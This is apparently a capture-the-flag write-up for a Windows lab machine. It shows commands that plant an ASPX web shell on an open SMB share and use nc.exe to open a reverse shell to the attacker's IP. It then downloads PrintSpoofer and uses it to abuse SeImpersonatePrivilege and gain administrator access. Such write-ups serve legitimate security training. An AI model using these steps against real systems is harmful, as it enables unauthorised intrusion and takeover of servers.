 ## Exploit
Uploading a web shell to the "nt4wrksv" share.
```bash
# on the attacker side
mkdir /mnt/relevant
sudo mount //10.10.59.193/nt4wrksv /mnt/relevant -o username=bob
cp /usr/share/webshells/aspx/cmdasp.aspx /mnt/relevant
```

Using the web shell to invoke a reverse shell. 
```
# on the attacker side
cp /usr/share/windows-binaries/nc.exe /mnt/relevant
firefox http://10.10.88.43:49663/nt4wrksv/cmdasp.aspx
sudo nc -nvlp 443

# within the web shell (at the URL above)
dir
powershell.exe -c "C:\inetpub\wwwroot\nt4wrksv\nc.exe -e cmd.exe 443 10.2.76.52"
```

## Explore
```bash
# on the victim side, via the reverse shell
more C:\Users\Bob\Desktop\user.txt # first flag
```

## Escalate
Identify privileges of the current user. 
```
# on the victim side, via the reverse shell
whoami /priv

# output
Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

Abusing the SeImpersonatePrivilege. 
```
wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe
sudo cp PrintSpoofer64.exe /mnt/relevant
.\PrintSpoofer64.exe -i -c powershell.exe
more C:\Users\Administrator\Desktop\root.txt # second flag
```
